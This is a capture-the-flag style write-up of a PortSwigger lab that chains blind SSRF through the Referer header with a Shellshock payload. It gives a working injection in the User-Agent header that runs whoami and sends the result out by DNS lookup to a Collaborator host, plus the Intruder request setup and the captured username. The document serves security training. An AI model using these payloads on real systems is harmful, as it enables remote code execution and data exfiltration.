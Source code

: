 # [Lab: Blind SSRF with Shellshock exploitation](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)

## Lab

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Analysis

install burp's extension called `Collaborator Everywhere`, add target to scope, and go to product page:

look at the issues view:
![issues](./../img/lab-7-issue.png)

## Shellshock

is a vulnerability in bash which allows remote code execution
without confirmation. A series of random characters, () {:;} ; , confuses the bash
because it does not know what to do with them , so by default it execute the code
after it.

```shell
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Solutions

- burp's intruder:
  - positions:

    ```http
    GET /product?productId=1 HTTP/1.1
    User-Agent: () { :; }; /usr/bin/nslookup $(whoami).collaborator
    Referer: http://192.168.0.§§:8080
    ```

  - payloads: 0 -> 255
  - result: `The Collaborator server received a DNS lookup of type A for the domain name peter-kHRxU6.jqdkp06io97juf4kag3dur3tckib66uv.oastify.com.`

- submit: `peter-kHRxU6`
  
## References

shellshock: <https://www.safe.security/assets/img/research-paper/pdf/Blind%20SSRF.pdf>
